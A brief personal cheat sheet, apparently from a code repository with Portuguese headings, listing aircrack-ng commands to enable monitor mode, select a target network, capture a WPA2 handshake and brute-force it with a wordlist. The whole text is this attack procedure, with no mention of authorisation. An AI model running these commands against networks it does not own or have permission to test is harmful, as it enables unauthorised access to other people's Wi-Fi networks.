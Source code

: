 # Cracking WPA2

This is a simple file for remind me some wpa2 cracking instructions.

### Ligar monitoramento
	sudo airmon-ng start <interface>

### Selecionar um alvo
	sudo airodump-ng <monitor>

### Pegar pacotes
	sudo airodump-ng <monitor> -c <canal> --bssid <bssid> -w <nomedoarquivo>

### Bruteforce nos pacotes capturados
	aircrack -w <wordlist> -b <BSSID> <.CAP>